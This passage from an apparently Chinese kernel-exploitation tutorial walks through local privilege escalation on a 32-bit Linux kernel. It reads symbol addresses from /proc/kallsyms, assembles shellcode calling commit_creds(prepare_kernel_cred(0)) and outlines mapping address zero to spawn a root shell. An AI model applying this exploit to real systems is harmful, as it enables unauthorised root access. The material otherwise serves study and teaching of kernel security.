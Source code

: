 gdb里反汇编查看当前执行的指令

[![](./img/85840/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0152e05c5f50a91892.png)

**4. exploit**

**1.思路**

给当前进程赋予root权限

```
commit_creds(prepare_kernel_cred(0));
```

下面取得commit_creds和prepare_kernel_cred地址：



```
/ # grep commit_creds /proc/kallsyms
c11b7bc0 T security_commit_creds
c15f8ed0 r __ksymtab_commit_creds
c16024d0 r __kcrctab_commit_creds
c1609215 r __kstrtab_commit_creds
/ # grep prepare_kernel_cred /proc/kallsyms
c1067fc0 T prepare_kernel_cred
c15f8eb0 r __ksymtab_prepare_kernel_cred
c16024c0 r __kcrctab_prepare_kernel_cred
c16091d9 r __kstrtab_prepare_kernel_cred
```

**2.编写shellcode**



```
xor %eax,%eax
call 0xc1067fc0
call 0xc1067e20
ret
$ gcc -o payload payload.s -nostdlib -Ttext=0
$ objdump -d payload
payload:     file format elf32-i386
Disassembly of section .text:
00000000 &lt;__bss_start-0x100d&gt;:
   0:    31 c0                    xor    %eax,%eax
   2:    e8 b9 7f 06 c1           call   c1067fc0 &lt;_end+0xc1066fb0&gt;
   7:    e8 14 7e 06 c1           call   c1067e20 &lt;_end+0xc1066e10&gt;
   c:    c3                       ret
```

得到shellcode

```
shellcode="x31xc0xe8xb9x7fx06xc1xe8x14x7ex06xc1xc3"
```

我们需要分配0地址空间然后放入shellcode，然后jmp过去执行shellcode，使当前进程有root权限，然后执行一个system("/bin/sh");在程序返回用户态之后拿到一个root的shell。
